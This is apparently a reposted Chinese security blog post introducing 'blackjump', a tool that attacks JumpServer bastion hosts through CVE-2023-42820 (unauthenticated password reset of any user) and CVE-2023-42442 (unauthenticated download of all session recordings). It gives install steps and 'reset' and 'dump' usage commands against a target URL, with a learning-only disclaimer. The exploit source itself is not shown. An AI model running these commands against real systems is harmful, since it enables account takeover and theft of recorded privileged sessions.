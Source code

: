 #  JumpServer 堡垒机未授权综合漏洞利用   
 黑白之道   2023-12-16 10:05  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif "")  
### 介绍  
  
JumpServer 堡垒机综合漏洞利用  
-  未授权任意用户密码重置 (CVE-2023-42820)  
  
-  未授权一键下载所有操作录像 (CVE-2023-42442)  
  
## 安装  
```
python3 -m pip install -r requirements.txt
```  
## 使用  
- CVE-2023-42820: 如果知道目标的用户名和邮箱可以指定 --user  
 和 --email  
 参数  
  
```
python3 blackjump.py reset https://vulerability
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1aK8uygNVPNaKD51HmfomZZ7fkZgXbdV0vR4l9ibrLBhBGwS51WQSHI4fDibpuwn2x0UWBU50CS3Yg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
- CVE-2023-42442: output/  
 目录下的 <uuid4>.tar  
 文件扔进   
jumpserver播放器播放即可  
  
```
python3 blackjump.py dump https://vulerability
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/GzdTGmQpRic1aK8uygNVPNaKD51HmfomZg0LBfmoCbcTk0ZDBPAFZibylqib3W3FwDhPkOzHS71abrKZS4wicTboiaw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
- 帮助  
  
```
python3 blackjump.py {reset,dump} -h
```  
  
> **文章来源：HACK之道**  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
  
